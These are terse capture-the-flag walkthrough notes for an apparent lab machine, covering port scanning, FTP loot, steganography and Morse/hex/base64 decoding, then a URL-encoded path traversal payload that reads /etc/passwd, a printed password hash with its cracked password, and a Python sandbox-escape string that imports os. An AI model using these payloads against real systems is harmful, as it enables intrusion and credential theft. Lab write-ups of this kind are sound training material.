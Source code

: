 nmap

21
22
80

index.html --> got jasonroom.html

got ftp hint

download all fles from ftp

exec password : kamishiro

exec output : You_found_1t

used `You_found_1t` to extract data from rize_and_kaneki.jpg

```
..... .-                                                                                                              
....- ....-                                                                                                           
....- -....
--... ----.
....- -..
...-- ..---
....- -..
...-- ...--
....- -..
....- ---..
....- .-
...-- .....
..... ---..
...-- ..---
....- .
-.... -.-.
-.... ..---
-.... .
..... ..---
-.... -.-.
-.... ...--
-.... --...
...-- -..
...-- -..


```

morse code --> hex 

hex -- > base64 

got d1r3c70ry_center

fuzz : got claim

http://10.10.25.46/d1r3c70ry_center/claim/index.php?view=%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2Fetc%2Fpasswd

```
kamishiro:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:1001:1001:,,,:/home/kamishiro:/bin/bash 

```

kamishiro:password123

__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower())<module 'os' from '/usr/lib/python3.5/os.py'>